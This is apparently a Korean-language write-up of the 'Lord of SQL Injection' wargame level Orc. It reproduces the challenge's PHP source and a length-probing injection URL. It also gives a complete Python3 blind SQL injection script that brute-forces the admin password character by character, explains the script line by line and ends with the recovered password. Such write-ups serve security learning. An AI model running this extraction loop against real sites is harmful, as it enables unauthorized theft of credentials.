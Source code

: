 # Lord of SQL Injection No.4 Orc

Orc 문제는 Blind SQL Injection을 통해서 DB의 pw 값을 추출해낼 수 있도록 유도한 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

#### 문제 풀이 조건
```sql
select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";
```
```php
...
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
...
```
위의 코드를 보면 알 수 있듯이 `Database`의 `pw`값과 `GET` 방식으로 받은 `pw`값이 같으면 문제풀이에 성공하게 된다.
이는 URL에 직접 삽입하여 SQL을 조작하여 푸는 방식이 아니라 직접 `Database`에 있는 `pw`값을 추출 해야한다는 것을 알 수 있다.

`pw`값을 알아내는 데에 사용하려면 `Blind SQL Injection` 을 이용해야한다.

## Blind SQL Injection 알아보기

* [Hacker School - Blind SQL Injection 공격](http://www.hackerschool.org/HS_Boards/data/Lib_share/The_basic_of_Blind_SQL_Injection_PRIDE.pdf)
* [Wikipedia - SQL 삽입 // Blind SQL Injection](https://ko.wikipedia.org/wiki/SQL_%EC%82%BD%EC%9E%85#Blind_SQL_.EC.82.BD.EC.9E.85)

## Solution
```
http://los.eagle-jump.org/orc_***.php?pw=' or length(pw)=8 -- ;
```
URL에 length(pw)=8이 참이 되기 때문에 사이트에서는 `Hello Admin`을 출력한다.
그리고 `Database`의 `pw`는 8자리라는 것을 알 수 있다.

`pw`값의 길이를 알아낸 후 Blind SQL Injection 공격을 하기 위해서 `Python`을 준비한다.
(필자는 Python3를 사용하였습니다.)

```python
import urllib.request
from urllib.parse import quote

result = ""

for i in range(1,9):
    for j in range(ord('0'),ord('z')):
        url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="
        add_url = "' or id='admin' and substr(pw,1,{})='{}' -- ;".format(str(i), result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")

        res = urllib.request.urlopen(re)

        if str(res.read()).find("Hello admin") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : " + result)
```

위의 `Python3` 코드는 `Database`에 있는 `pw`를 모두 알아낼 때까지 `for`문을 반복하는 형태이다.

```python
for i in range(1,9):
```
`for`문을 8번(비밀번호 길이) 반복한다는 의미이다.
비밀번호의 길이를 `length` 함수 대입으로 알아내기 힘들다면 `Python` 코드에 비밀번호의 길이를 찾는 코드를 추가하여 대체할 수 있다.

```python
  for j in range(ord('0'),ord('z')):
```
`for`문을 `ASCII`값으로 0부터 z까지 반복한다는 의미이다.
* `ASCII 0` = 48
* `ASCII z` = 122

#### ord

ord 함수는 특정 문자를 `ASCII` 값으로 변환하는 함수이다.

* [php.net - ord 함수](http://php.net/manual/kr/function.ord.php)

```python
  url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="
```
`Python` 코드를 실행하면서 고정되어 있는 URL을 나타낸다.

```python
  add_url = "' or id='admin' and substr(pw,1,{})='{}' -- ;".format(str(i), result+chr(j))
```
고정된 URL 뒤에 붙을 URL의 일부분을 담은 코드이다.
반복 수행을 하기 위해서는 위의 부분은 항상 유동적으로 변해야하기 때문에 `for`문의 i와 j를 이용하여 대입하는 방식으로 설계되었다.

#### .format

```c
...
  printf("%d", num);
...
```
`format` 함수는 C언어에서 num을 대입하는 것과 같은 형식으로 {} 안에 `format` 뒤에 나오는 값을 매칭시켜 대입할 때에 사용된다.

* [Programmers.co.kr - format 함수](https://programmers.co.kr/learn/courses/%ED%8C%8C%EC%9D%B4%EC%8D%AC-%EC%9E%85%EB%AC%B8/lessons/format)

```python
print("Searching.. - {0}{1}".format(url, add_url))
```
반복문이 돌 때마다 URL을 출력시킨다.

`format` 함수는 {} 안에 숫자를 대입하여 순서를 임의로 지정해줄 수 있다.

```python
add_url = quote(add_url)
```
`quote` 함수에 `add_url` (URL에서 유동적인 부분)을 넣어 `URL Encording`을 수행한다.

```python
new_url = url + add_url
re = urllib.request.Request(new_url)
```
`url` (URL에서 고정되는 부분)과 `add_url` (URL에서 유동적인 부분)을 합쳐 한 줄의 URL을 `new_url`에 저장한다.

```python
import urllib.request
```
위의 `urllib.request` 모듈에서 `Request`라는 클래스를 통해 객체를 생성한다.

```python
re.add_header("User-Agent","Mozilla/5.0")
re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")
```
`User-Agent`와 `PHPSESSID` 를 `re` 객체의 header에 추가한다.

```python
res = urllib.request.urlopen(re)
```
`re` 객체를 이용하여 서버에 요청을 한다.

```python
if str(res.read()).find("Hello admin") != -1:
  result += chr(j).lower()
  print("Found it!! => " + result)
  break
```
`res.read()`를 통해 객체에서 `Hello admin` 이라는 문자열을 찾은 경우에 `find` 함수에서 문자열의 시작 인덱스를 반환한다. 만약 문자열을 찾지 못했을 경우에는 -1을 반환한다.

`Hello admin`을 찾은 경우에는 `result`라는 변수에 아스키 코드로 j에 해당하는 문자를 붙인 후 현재까지 찾은 `result`를 출력하고 반복문을 탈출한다.

```python
print("Finished Searching.")
print("Password : " + result)
```

반복문이 종료되면 `result`의 값과 `Database`에 있는 `pw`값이 일치하므로 문제 풀이를 위한 `pw`값을 찾아낼 수 있다.

```
http://los.eagle-jump.org/orc_***.php?pw=295d5844
```
pw = 295d5844를 URL에 삽입하면 문제 풀이에 성공한다.